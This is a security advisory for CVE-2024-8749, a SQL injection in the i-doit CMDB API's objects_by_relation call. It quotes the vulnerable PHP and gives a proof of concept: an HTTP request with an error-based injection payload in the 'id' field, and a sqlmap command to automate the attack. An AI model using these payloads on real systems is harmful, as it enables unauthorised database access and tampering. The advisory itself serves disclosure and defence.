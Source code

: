 

# CVE-2024-8749

## Vulnerability Details:

- **CVSS Score:** 8.8 HIGH (CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)

- **Affected Component:** [I-DOIT](https://www.i-doit.com)  API (cmdb.objects_by_relation.read call)

- **Vulnerability Type:** SQL Injection (SQLi)

- **Impact:** This vulnerability allows malicious actors to execute arbitrary SQL queries, potentially leading to data leakage, data manipulation, or even unauthorized access to sensitive information.

- **Exploitability:** The vulnerability can be exploited by crafting specifically malicious SQL queries (boolean-based blind, boolean-based blind and time-based blind) and submitting them through the API requests.

- **Affected Versions:** [I-DOIT](https://www.i-doit.com)  > 1.7 (all versions)

- **Details:** The parameter ``` $p_params['id']``` in ``` /var/www/html/src/classes/modules/api/model/cmdb/isys_api_model_cmdb_objects_by_relation.class.php``` is not being sanitized. This means that user-supplied input is being used directly without any form of validation or sanitization, which increases the risk of SQL injection vulnerabilities.
  
  ```php
  public function read($p_params)
    {
        // Prepare return array.
        $l_return = [];

        // Prepare filters.
        $l_raw = (bool)$p_params['raw'];
        $l_id = (isset($p_params['id'])) ? $p_params['id'] : null;
        $l_relation_type = (isset($p_params['relation_type'])) ? $p_params['relation_type'] : null;

        // Validate status
        $this->validateStatus($p_params['status']);

        // Check if relation_type is a string constant.
        if (is_string($l_relation_type) && defined($l_relation_type)) {
            $l_relation_type = constant($l_relation_type);
        }

        if ($this->useAuth) {
            isys_auth_cmdb::instance()
                ->check_rights_obj_and_category(isys_auth::VIEW, $l_id, 'C__CATG__RELATION');
        }

        if (!$l_id) {
            throw new isys_exception_api('No object id given. Specify parameter "id" in order to filter objects by relation.');
        }

        // Start looking for objects.
        $l_dao = new isys_cmdb_dao_category_g_relation($this->m_db);
        $l_data = $l_dao->get_related_objects($l_id, $l_relation_type, $p_params['status']);

        // Iterate through result set.
        while ($l_row = $l_data->get_row()) {
            // Fetch more information about the related object:
            $l_related = $this->m_dao->get_object_by_id($l_row['related'])
                ->get_row();

            $l_row['related_title'] = $l_related['isys_obj__title'];
            $l_row['related_type'] = $l_related['isys_obj_type__id'];
            $l_row['related_type_title'] = $l_related['isys_obj_type__title'];
            $l_row['related_cmdb_status_id'] = $l_related['isys_cmdb_status__id'];
            $l_row['related_cmdb_status_title'] = $l_related['isys_cmdb_status__title'];

            $l_key = $l_row['isys_obj__id'];

            if (!$l_raw) {
                $l_row = $this->format_by_mapping($this->m_mapping, $l_row);
            }

            $l_value = [
                'data'     => $l_row,
                'children' => false
            ];

            $l_return[$l_key] = $l_value;
        }

        return $l_return;
    }
  ```

  This unsanitized input is then passed to the get_related_objects function in ```/var/www/html/src/classes/modules/cmdb/dao/category/global/isys_cmdb_dao_category_g_relation_.class.php```. This function constructs and executes SQL queries using the supplied parameter without proper sanitization or parameterization.

  ```php
  public function get_related_objects($p_parent_object, $p_relation_type = null, $status = null)
    {
        $l_sql = "SELECT
            relation_object.isys_obj__id,
            relation_object.isys_obj__title,
            isys_obj_type__id,
            isys_obj_type__title,
            isys_catg_relation_list__isys_obj__id__master,
            isys_catg_relation_list__isys_obj__id__slave,
            isys_catg_relation_list__isys_obj__id,
            CASE isys_catg_relation_list__isys_obj__id__master WHEN '" . $p_parent_object . "' THEN isys_catg_relation_list__isys_obj__id__slave
            ELSE isys_catg_relation_list__isys_obj__id__master END AS related
            FROM isys_catg_relation_list
            INNER JOIN isys_obj relation_object ON relation_object.isys_obj__id = isys_catg_relation_list__isys_obj__id
            INNER JOIN isys_obj_type ON isys_obj__isys_obj_type__id = isys_obj_type__id";

        // Additional joins for requesting object statuses
        if (!empty($status)) {
            $l_sql .= " INNER JOIN isys_obj relatedObject ON relatedObject.isys_obj__id = CASE isys_catg_relation_list__isys_obj__id__master WHEN '" . $p_parent_object . "'
                                                                                          THEN isys_catg_relation_list__isys_obj__id__slave
                                                                                          ELSE isys_catg_relation_list__isys_obj__id__master END
                        INNER JOIN isys_obj parentObject ON parentObject.isys_obj__id = " . $this->convert_sql_id($p_parent_object);
        }

        $l_sql .= " WHERE (isys_catg_relation_list__isys_obj__id__master = " . $this->convert_sql_id($p_parent_object) . "
                OR isys_catg_relation_list__isys_obj__id__slave = " . $this->convert_sql_id($p_parent_object) . ")";

        if (!is_null($p_relation_type)) {
            if (is_array($p_relation_type)) {
                $l_sql .= " AND isys_catg_relation_list__isys_relation_type__id " . $this->prepare_in_condition($p_relation_type);
            } else {
                $l_sql .= " AND isys_catg_relation_list__isys_relation_type__id = " . $this->convert_sql_id($p_relation_type);
            }
        }

        // Add status condition
        if (!empty($status)) {
            $status = $this->convert_sql_id($status);

            $l_sql .= ' AND (relation_object.isys_obj__status    = ' . $status . ')';
        }

        $l_sql .= " GROUP BY related;";

        return $this->retrieve($l_sql);
    }
  ```

  - **Mitigation:** Immediate action is recommended to address this issue. Implementing input validation and parameterized queries can help mitigate the risk of SQL Injection attacks. Additionally, conducting a thorough security audit of the entire codebase is advised to identify and address any other potential vulnerabilities.

## Proof of Concept (PoC):

An attacker could craft a malicious request to exploit the vulnerability:

```HTTP Request
POST /src/jsonrpc.php HTTP/1.1
Host: 192.168.1.46
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0st75tilh4l5t5mhefj1gvu4om
Connection: close
Content-Type: application/json
Content-Length: 207

}
  "version": "2.0",
  "method": "cmdb.objects_by_relation",
  "params": {
    "status": 2,
    "id": "62' AND EXTRACTVALUE(5216,CONCAT(0x5c,0x717a717a71,(SELECT (ELT(5216=5216,1))),0x7178767171)) AND 'owRH'='owRH",
    "raw": false,
    "apikey": "e5368jggdb4k4s44",
    "language": "en"
  },
  "id": 1
}
```

To automate these process is it possible use ```sqlmap```.

```bash
sqlmap --random-agent --level 5 --risk 3 -r id.req --banner 
```


![image](https://github.com/offensive-security-pwncat/CVE/blob/main/SQLi/img/022024.jpeg?raw=true)

## Recommendations:

- **Patch:** Develop and deploy a patch or update that addresses the SQL Injection vulnerability in the affected API endpoint.

- **Education:** Provide training and resources to developers on secure coding practices, emphasizing the importance of input validation and preventing SQL Injection vulnerabilities.
